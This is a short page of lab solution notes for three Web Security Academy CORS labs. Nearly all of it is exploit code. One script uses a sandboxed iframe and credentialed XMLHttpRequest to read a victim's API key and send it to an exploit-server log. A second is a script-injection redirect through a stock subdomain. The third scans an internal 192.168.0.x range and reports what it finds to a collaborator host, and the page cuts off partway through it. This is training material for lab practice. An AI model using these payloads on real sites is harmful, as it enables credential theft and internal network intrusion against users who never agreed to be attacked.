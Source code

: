 
**CORS vulnerability with trusted null origin**

    API key in my-account
    GET /accountDetails => Access-Control-Allow-Credentials: true
1. add null Origin to request e.g. `Origin: null`
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```
2. send and go to access log

---

**CORS vulnerability with trusted insecure protocols**

    API key in my-account
    GET /accountDetails => Access-Control-Allow-Credentials: true
    stock.LAB_URL in product detail page
1. add subdomian Origin to request e.g. `Origin: https://SUBDOMIAN.LAB_URL`
```html
<script>
    document.location="http://stock.0ab4000c04fef8f780932617002c009a.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0ab4000c04fef8f780932617002c009a.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a4200ae046af845806725dd015e0022.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
2. modified payload

---

**CORS vulnerability with internal network pivot attack** !EX

    delete carlos
1. send this exploit below
```html
<script>
var q = [], collaboratorURL = 'http://$collaboratorPayload';

for(i=1;i<=255;i++) {
	q.push(function(url) {
		return function(wait) {
			fetchUrl(url, wait);
		}
	}('http://192.168.0.'+i+':8080'));
}

for(i=1;i<=20;i++){
	if(q.length)q.shift()(i*100);
}

function fetchUrl(url, wait) {
	var controller = new AbortController(), signal = controller.signal;
	fetch(url, {signal}).then(r => r.text().then(text => {
		location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now();
	}))
```